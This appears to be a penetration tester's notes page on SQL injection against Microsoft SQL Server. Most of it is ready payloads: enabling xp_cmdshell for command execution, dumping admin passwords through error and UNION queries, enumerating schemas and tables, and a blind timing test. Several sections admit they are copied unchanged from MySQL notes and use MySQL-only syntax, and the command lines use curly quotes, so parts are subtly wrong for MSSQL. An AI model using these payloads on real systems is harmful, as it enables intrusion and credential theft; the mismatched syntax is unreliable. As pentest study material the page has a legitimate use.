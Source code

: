# MSSQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

### RCE

We can first can attempt to get RCE with the following injection sequence:

```mysql
# First test if nothing needs to be configured
'; EXEC xp_cmdshell ‘whoami’; -- //
'
# If no response is given, we can pursue the following command sequence
'; EXEC sp_configure ‘show advanced options’, 1; -- //
'; RECONFIGURE; -- //
'; EXEC sp_configure ‘xp_cmdshell’, 1; -- //
'; RECONFIGURE; -- //
'; EXEC xp_cmdshell ‘whoami’; -- //
```

### Error-based Payloads vs Authentication Queries !!UNMODIFIED FROM MySQL!!

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT @@version) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) for additional example queries

### UNION-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
' UNION SELECT CONCAT('Col', 1), CONCAT('Col', 2), CONCAT('Col', 3), CONCAT('Col', 4), CONCAT('Col', 5), CONCAT('Col', 6) -- //

# We can now rearange our statement to first query baseline information
' UNION SELECT null, database(), user(), @@version, null -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, schema_name, null, null, null FROM information_schema.schemata -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema=database() -- //
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='another_db' -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema=database() -- //
'
# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Blind SQL Injections !!UNMODIFIED FROM MySQL!!

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```
